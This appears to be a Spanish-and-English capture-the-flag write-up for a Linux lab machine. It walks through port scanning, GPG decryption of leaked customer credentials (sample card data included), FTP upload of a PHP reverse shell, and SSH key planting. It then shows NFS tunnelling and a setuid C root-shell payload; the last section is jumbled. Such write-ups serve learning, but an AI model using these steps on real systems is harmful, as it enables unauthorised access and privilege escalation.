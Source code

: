 
# SCAN
```
PORT   STATE SERVICE VERSION                                                                                                                                 
21/tcp open  ftp     vsftpd 3.0.3                                                                                                                            
22/tcp open  ssh     OpenSSH 8.0 (protocol 2.0)                                                                                                              
80/tcp open  http    Apache httpd 2.4.37 ((centos))
Service Info: OS: Unix
```
# FTP SCAN

Anonymous not seems to be avalaible

# WEB ENUM
Hay un directorio **backups** donde hay un fichero comprimido *backup.zip* que contiene una clave publica (priv.key) y un archivo encriptado pgp: CustomerDetails.xlsx.gpg que parece contener un excel para desencriptar el fichero gpg, se hace en 2 pasos
1. Importar la clave privada
> $ gpg --import priv.key
2. Desencriptar
> $ gpg -d -o output.xlsx CustomerDetails.xlsx

In the file decrypted is a spreadsheet of excel with a table where the columns are: user, username, password, credit card number, cvs
```
Customer Name,Username,Password,Credit card number,CVC
Par. A. Doxx,paradox,ShibesAreGreat123,4111 1111 4555 1142,432
0day Montgomery,0day,OllieIsTheBestDog,5555 3412 4444 1115,642
Muir Land,muirlandoracle,A11D0gsAreAw3s0me,5103 2219 1119 9245,737
```

# FTP AUTHENTICATION
Trato de autentificarme en ftp con las anteriores credenciales pero solo lo logro con paradox. Resulta que puedo subir ficheros a este directorio
que es el directorio web, luego podre luego ejecutarlos. Puedo subir un reverse shell php (el tipico monkey). Ejecuto el fichero con curl y obtengo
un shell con el usuario apache (great!). Desde aqui es directo obtener el web-flag

# Escalada privilegios (user paradox)
Desde el usuario apache escalamos al usuario paradox mediante
> $ su paradox

Utilizando el mismo password

# user-flag (user james)
El hint nos dice que el flag de usuario pertenece al usuario **james**, pero no tengo acceso a su directorio. Utilizando alguna de las herramientas
de enumeracion automatica (lse, linpeas), veo que hay un vector para la escalada de privilegios que es que el directorio /home/james se puede montar 
como un nfs, es decir es un archivo compartido y como tiene activado el "root-no-squash" puedo subir al directorio /home/james un ejecutable con el cual
obtener un root. El problema es que desde dentro de la maquina no puedo acceder al directorio /home/james. 

# ssh tunneling
Puedo intentar hacer un ssh tunneling con la cual acceder al directorio /home/james ya que se que es un archivo compartido nfs y que utiliza el puerto 2049 aunque este puerto esta bloqueado por un firewall. Para este necesito:
1. Establecer una conexion ssh: Esto puedo hacerlo a traves del usuario paradox, creando una private-key y una public.key y traspasando la public key al directorio /home/paradox/.ssh/authorized_keys. Para ello en la maquina atacante:
- $ ssh-keygen -f paradox
2. copiamos echo "<content of public key>" >> /home/paradox/.ssh/authorized_keys
  
Ahora podemos abrir un ssh tunel con 
> $ ssh -i paradox -L 2049:127.0.0.1:2049 paradox@<ip_victim>

Ahora ya podemos montar la el archivo compartido nfs:

> $ mount -t nfs localhost:/ /tmp/mnt

y podemos acceder a los archivos compartidos con

 > $ cd /tmp/mnt
 
 Aqui preparamos nuestro payload e C:
 ```
 int main(){
    setuid(0);
    setgid(0);
    system("/bin/bash");
    return 0;
 }
 
 lo compilamos con 
 > $ gcc payload.c -o payload
 y cambiamos a suid
 > $ chmod +s payload
 
 Nos logeamos como James con:
 > $ ssh -i id_rsa james@<ip_victim>
 y ejecutamos el exploit
 > $ ./payload
 y tenemos el root

 donde se haya el user.flag. Este directorio resulta ser el /home/james y contiene el .ssh con id_rsa e id_rsa.pub. Nos copiamos el id_rsa y podemos autentificarnos
  


